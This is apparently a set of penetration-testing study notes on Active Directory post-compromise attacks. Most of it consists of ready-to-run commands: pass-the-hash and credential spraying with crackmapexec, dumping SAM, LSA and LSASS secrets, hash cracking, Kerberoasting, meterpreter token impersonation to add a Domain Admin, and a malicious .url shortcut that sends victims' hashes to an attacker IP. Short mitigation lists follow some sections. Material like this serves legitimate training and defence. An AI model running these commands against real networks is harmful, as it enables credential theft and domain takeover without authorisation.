

# Active Directory Post-Compromise Attacks

### Introduction

What happens after we have an account?

Moving vertically and laterally

### Pass Attacks Overview

**Pass the Password/Pass the Hash**

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

**Pass the Password**

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Grab hashes with Metasploit's `hashdump` or with Impacket's secretsdump if we have access to an Admin account

`impacket-secretsdump domain/user:password@10.0.0.1`

**Pass the Hash**

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth`

We can use CME to dump valuable data

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --sam`

Enumerate shares

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --shares`

Dump the Local Security Authority (LSA)

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --lsa`

CME also has built-in modules, list them with `crackmapexec smb -L`

lsassy allows us to dump the [Local Security Authority Subsystem Service (LSASS)](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

Allows us to access credentials that may not be dumped with secretsdump 

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth -M lsassy`

There's also a database for CME called the `cmedb`

### Pass Attacks Lab

Example attack

Run a pass the password attack with the credentials recovered from our initial attacks then use the access 
found with CME to start dumping data

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Pass the hash attacks *only work with NTLMv1*

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth`

Run CME to dump the SAM hashes when we pwn some machines, the hashes will be added to the cmedb

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --sam`

Enumerate the shares

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --shares`

Dump the LSA, will also be dumped by secretsdump

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --lsa`

mscache hashes (DCC2) will be dumped and can be cracked so look for Domain Administrator account names

`hashcat -m 2100 -O hash.txt rockyou.txt`

If the password has a date try incrementing it, if it has multiple symbols e.g. !!!, try adding an additional 
symbol

Use CME modules to see what else the credentials can do (GPP password, impersonate, keepass file discovery, 
etc.)

`crackmapexec smb -L`

Run lsassy to dump any secrets stored in memory (NTLM hashes of logged in users)

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth -M lsassy`

Use the CME DB to view hosts, credentials, shares, etc. that were found while using CME

### Dumping and Cracking Hashes

Run secretsdump on a target you have credentials for

`secretsdump.py DOMAIN.com/user:password@10.0.0.1`

Grab SAM hashes for the users, DCC2 hashes, cleartext passwords, wdigest (older protocol, enabled by default 
on older systems)

Look for old systems as we may find cleartext Domain Admin passwords

wdigest can be force enabled, then wait for a user to log in to grab cleartext password of the user

Write a bash one-liner to dump the cmedb hosts and then use the found credentials to run secretsdump against 
all the hosts

Hashes can also be used

`secretsdump.py administrator:@10.0.0.1 -hashes hash`

Crack the hashes with the NT part -> LM:NT

`hashcat -m 1000 hash.txt rockyou.txt`

Example lateral movement with credentials:

Initial compromise of hash/credentials -> crack hash/use hash to secretsdump -> spray network with password 
-> find logins -> use secretsdump -> local admin hashes -> respray the network with local admin accounts

### Pass Attack Mitigations

Hard to completely prevent, but we can make it more difficult for an attacker

Limit account re-use:

- Avoid re-using local admin passwords
- Disable Guest and Administrator accounts
- Limit who is a local admin (least privilege)

Utilize strong passwords:

- The longer the better (>14 chars)
- Avoid using common words
- Long sentences can be good

Privilege Access Management (PAM):

- Check out/in sensitive accounts when needed
- Automatically rotate passwords on check out and check in
- Limits pass attacks as hash/password is strong and constantly rotated

### Kerberoasting Overview



1. Get SPNs, dump hash
`python GetUserSPNs.py DOMAIN/username:password -dc-ip 10.0.0.1 -request`

2. Crack the hash
`hashcat -m 13100 kerberoast.txt rockyou.txt`

### Kerberoasting Mitigation

Mitigation Strategies:

- Strong passwords
- Least privilege

### Token Impersonation Overview

**Token Impersonation**

What are tokens?

- Temporary keys that allow you access to a system/network without having to provide credentials each time 
you access a file. Think of cookies

Two Types:

- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

### Token Impersonation Walkthrough

Start msfconsole and load psexec with an x64 meterpreter payload then run the exploit

Use `load` to load incognito in the meterpreter shell and check available commands with `help`

`load incognito`

Use `list_tokens` to show available tokens, with -g for groups and -u for users
Use `impersonate_token domain\\user` to impersonate a user and `rev2self` to drop the impersonation

If we find a domain admin token available for impersonation we can use that to add a user to the Domain Admin
group

`net user /add username password /domain` 
`net group "Domain Admins" username /ADD /DOMAIN`

### Token Impersonation Mitigation

Mitigation Strategies:

- Limit user/group token creation permission
- Account tiering
- Local admin restriction

### URL File Attacks

Create a malicious Shortcut file, replacing `10.10.10.10` with the attacker IP. Save the file as 
"@filename.url" or "~filename.url" and place it in a network share.

Run responder with HTTP and SMB turned on in Responder.conf, then wait until someone navigates to the share 
and the hashes should be dumped to responder

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### GPP/cPassword Attacks and Mitigations
